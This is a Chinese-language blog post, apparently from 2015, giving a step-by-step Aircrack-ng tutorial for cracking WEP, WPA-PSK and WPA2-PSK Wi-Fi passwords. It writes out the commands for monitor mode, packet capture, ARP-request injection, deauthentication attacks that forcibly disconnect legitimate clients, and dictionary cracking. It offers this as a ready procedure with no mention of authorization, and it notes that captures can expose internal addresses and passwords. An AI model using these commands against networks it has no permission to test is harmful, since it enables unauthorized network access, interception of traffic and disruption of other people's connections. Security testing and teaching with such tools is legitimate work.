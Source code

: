 ```yaml
---
layout: post
title: Aircrack-ng 使用
category: Auxiliary
tags: [Aircrack-ng, Kali]
latest: 2015年10月27日 23:24:15
---
```


无线在使用方便的同时，也为各种破解带来了便利，因为现在使用无线的设备越来越多，抓包的难度也降低了不少。


WEP Crack
-

1、 载入无线网卡

```
ifconfig -a
```

2、 激活无线网卡

```
ifconfig wlan0 up
iwconfig
```

3、 切换无线网卡到工作模式为 **监听**

```
airmon-ng start wlan0
```

4、 预探测无线网络概况

```
airodump-ng mon0
```

> _mon0_ 为之前已经载入并激活监听模式的无线网卡。

5、 锁定攻击目标

```
airodump-ng --ivs –w longas -c 6 wlan0
```

6、 对目标 AP 使用 ArpRequest 注入攻击以加快抓包速度

```
aireplay-ng -3 -b AP的mac -h 客户端的mac mon0 
```

7、 回到 airodump-ng 界面查看目标 AP 到数据包情况

8、 对抓取到的数据包进行 WEB 破解

```
aircrack-ng 捕获的ivs文件
```

> 在抓取的无线数据报文达到了一定数量后，一般都是指IVs值达到2万以上时，就可以开始破解，若不能成功，比如密码难度较大，就等待数据报文的继续抓取然后多试几次。

如果破解成功，在 "KEY FOUND" 字样后面的 "ASCII" 字符串即为密码。

9、 **补充**

- 捕获所有数据包而非过滤之后的IVs

这样的话，捕获的数据包将不再是longas-01、ivs，而是longas-01、cap。

> 若只是为了破解的话，建议保存为ivs，优点是生成文件小且效率高。若是为了破解后同时来对捕获的无线数据包分析的话，就选为cap，这样就能及时作出分析，比如内网IP地址、密码等，当然，缺点就是文件会比较大。可以使用 `du` 指令来比较两者的大小。

破解 、cap 数据包也是使用 aircrack-ng 指令：

```
aircrack-ng 捕获的cap文件
```

WPA-PSK Crack
-

1、 工具升级

升级 Aircrack-ng 。同时，为了更好地识别出无线网络设备及环境，最好对airodump-ng的OUI库进行升级，先进入到Aircrack-ng的安装目录下，然后输入命令如下：

```
airodump-ng-oui-update 
```

2、 载入并激活无线网卡至monitor即监听模式

```
startx            进入到图形界面 
ifconfig –a       查看无线网卡状态
ifconfig  wlan0  up     载入无线网卡驱动
airmon-ng  start  wlan0  激活网卡到monitor模式
```
3、 探测无线网络并对目标 AP 抓包

```
airodump-ng -c 6 –w longas mon0 
```

4、 进行Deauth攻击加速破解过程

> 和破解WEP时不同，这里为了获得破解所需的WPA-PSK握手验证的整个完整数据包，无线黑客们将会发送一种称之为“Deauth”的数据包来将已经连接至无线路由器的合法无线客户端强制断开，此时，客户端就会自动重新连接无线路由器，黑客们也就有机会捕获到包含WPA-PSK握手验证的完整数据包了。此处具体输入命令如下：

```
aireplay-ng -0 1 –a AP的mac -c 客户端的mac wlan0
```

若我们没有在airodump-ng工作的界面上看到上面的提示，那么可以增加Deauth的发送数量，再一次对目标AP进行攻击。比如将-0参数后的数值改为10。

5、 开始破解 WPA-PSK 报文

```
aircrack-ng -w dic 捕获的cap文件 
```

WAP2-PSK Crack
-

对于启用WPA2-PSK加密的无线网络，其攻击和破解步骤及工具是完全一样的，不同的是，在使用airodump-ng进行无线探测的界面上，会提示为 WPA CCMP PSK。



References
-

-<netsecurity、51cto、com/art/201105/264844_all、htm>


参考
-

- [_无线破解攻击工具Aircrack-ng使用详解_](http://blog、csdn、net/ffilman/article/details/5782577)